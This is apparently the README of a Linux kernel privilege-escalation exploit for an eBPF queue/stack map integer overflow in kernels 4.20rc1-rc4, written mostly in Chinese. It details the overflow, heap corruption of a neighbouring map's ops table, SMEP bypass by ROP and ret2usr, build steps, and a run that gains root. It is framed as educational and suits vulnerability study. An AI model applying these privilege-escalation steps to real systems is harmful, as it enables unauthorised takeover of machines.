 # Linux_LPE_eBPF_4.20rc1-4
LPE exploit for 4.20rc1-rc4.
For educational/research purposes only. Use at your own risk.
## Analysis
syscall: int bpf(int cmd, union bpf_attr *attr, unsigned int size);
### kernel compilation
	开启下列参数：
		1. CONFIG_BPF
		2. CONFIG_BPF_SYSCALL
		3. CONFIG_DEBUG_INFO
### exploit
#### triggered vul path
a. 漏洞触发路径：bpf -> map_create -> find_and_alloc_map -> queue_stack_map_alloc。
#### triggered vul condition
b. 达到漏洞函数的条件。
```
	1. 设置 attr->map_type 为 22。
	2. 通过 map_alloc_check 的检查。
	3. attr->map_ifindex 为空。
```
#### vul loc
c. 漏洞函数 queue_stack_map_alloc 的漏洞：整数溢出 -> 分配堆空间。  
size变量存在整数溢出。这个size在正常情况下应该是：struct bpf_queue_stac 的大小加上 value_size * size 相当于是map中每一项的大小（value_size）乘项数+1（attr->max_entries + 1）。  
另外，elements后面是数据区域。
```
struct bpf_queue_stack {
    struct bpf_map map;
    raw_spinlock_t lock;
    u32 head, tail;
    u32 size; /* max_entries + 1 */
 
    char elements[0] __aligned(8);
};

/* map is generic key/value storage optionally accessible by eBPF programs */
struct bpf_map_ops {
	/* funcs callable from userspace (via syscall) */
	int (*map_alloc_check)(union bpf_attr *attr);
	struct bpf_map *(*map_alloc)(union bpf_attr *attr);
	void (*map_release)(struct bpf_map *map, struct file *map_file);
	...
}；
struct bpf_map {
    /* The first two cachelines with read-mostly members of which some
     * are also accessed in fast-path (e.g. ops, max_entries).
     */
    const struct bpf_map_ops *ops ____cacheline_aligned;
    struct bpf_map *inner_map_meta;
#ifdef CONFIG_SECURITY
    void *security;
#endif
    enum bpf_map_type map_type;
    u32 key_size;
    u32 value_size;
    u32 max_entries;
    u32 map_flags;
    u32 pages;
    u32 id;
    int numa_node;
    u32 btf_key_type_id;
    u32 btf_value_type_id;
    struct btf *btf;
    bool unpriv_array;
    /* 55 bytes hole */
 
    /* The 3rd and 4th cacheline with misc members to avoid false sharing
     * particularly with refcounting.
     */
    struct user_struct *user ____cacheline_aligned;
    atomic_t refcnt;
    atomic_t usercnt;
    struct work_struct work;
    char name[BPF_OBJ_NAME_LEN];
};

void *bpf_map_area_alloc(size_t size, int numa_node)
{
    ......
  area = kmalloc_node(size, GFP_USER | flags, numa_node);
        if (area != NULL)
            return area;
    ......
}

bpf_map* queue_stack_map_alloc{
......
  struct bpf_queue_stack *qs;   
  u32 size, value_size;
  u64 queue_size, cost;
 
  // bugs-> integer overflow. -> 0
  size = attr->max_entries + 1;
  value_size = attr->value_size;
 
  queue_size = sizeof(*qs) + (u64) value_size * size;
  ......
  qs = bpf_map_area_alloc(queue_size, numa_node); // numa_node存储着attr
  ......
  // 用 bpf_attr 初始化 bpf_map。
  bpf_map_init_from_attr(&qs->map, attr);
  ......
  qs->size = size;
  return &qs->map;
}
```
最后从 find_and_alloc_map(attr) 中返回我们的map（struct bpf_map *）。  
---->  
由于整数溢出，导致只分配了struct bpf_queue_stack 的空间，而没有分配map对应的空间。（个人理解这个bpf_queue_stack类似报文头部（负责管理的），而map对应的空间类似payload（elements数据）），但是map->max_entries = attr->max_entries。  
#### 堆溢出
e. 接下来，我们需要找到一块可以造成堆溢出的位置。我们将视角移出 map_create 函数。然而在BPF_MAP_UPDATE_ELEM 分支中我们对此对象进行更新等操作。  	
触发路径：bpf -> map_update_elem -> queue_stack_map_push_elem.  
```
queue_stack_map_push_elem(struct bpf_map *map, void *value,
                     u64 flags){
......
 dst = &qs->elements[qs->head * qs->map.value_size]; //qs->head代表当前是第几个entry
 memcpy(dst, value, qs->map.value_size); //堆溢出位置     
......
}
```
所以，对于0x100大小的map header+map payload, 即struct bpf_queue_stack，如果我们要拷贝的大小（value_size）大于（0x100- sizeof(bpf_map) - 0x10）的大小，就会造成堆溢出，而value_size由输入参数 attr 控制，从而能覆盖到下一个created map的bpf_map_ops虚表。  
#### vul exploitation
f. 漏洞利用
```
struct bpf_queue_stack {
    struct bpf_map map;
    raw_spinlock_t lock;
    u32 head, tail;
    u32 size; /* max_entries + 1 */
 
    char elements[0] __aligned(8);
};

struct bpf_map {
    /* The first two cachelines with read-mostly members of which some
     * are also accessed in fast-path (e.g. ops, max_entries).
     */
    const struct bpf_map_ops *ops ____cacheline_aligned;
  ......
}
```
1. 看到其第一个成员就是虚表指针 ops ，换句话说，在我们kamlloc出的slab中的第一个位置就是指向当前map虚表的指针。
2. 如果我们能通过上方的slab堆溢出，劫持下方slab的虚表指针，再fake相应的vtable，就可以实现一套内核的执行流劫持。
3. 最终的攻击点我们选择在在fake vtable上伪造fake map_release函数指针，通过close对应的map id触发fake bpf_map_release完成执行流劫持。

##### bypass smep
1. 使用了这样一条在内核中常用的栈迁移gadgets：xchg eax esp; ret;。将该gadget直接放到用户态mmap出来的fake ops table上。
2. rop劫持cr4绕过smep，然后ret2usr 提升权限。
3. 最后 swapgs; iretq 着陆用户态起shell。

但是这样是没法bypass smap的，因为ret指令涉及到向用户态取数据。

## Todo
### bypass smap
### bypass kaslr
### bypass kpti

## Usage
Build for 4.20rc1-rc4.
```
$ make
```
To run:
由于当前版本没绕过kaslr，需要手动修改exp的gadget地址以匹配你的内核。
```
# id
uid=1000(tmp) gid=1000(tmp) groups=1000(tmp)
$ /exp                                                                                          
[+] sizeof(union bpf_attr): 0x48
[+] sizeof(struct bpf_map): 0xc0          
[+] sizeof(struct bpf_queue_stack): 0x100
[+] bpf targetFd: 3
[+] map fd: 4
[+] set fake bpf_map_ops table.
[+] set kernel rop.
[+] fake_rsp: 8100e7f8
[+] start closing map fd
[*] welcome to root :-)
$ id
uid=0(root) gid=0(root)
```
Note: Just a toy. Improve the mitigation please. 
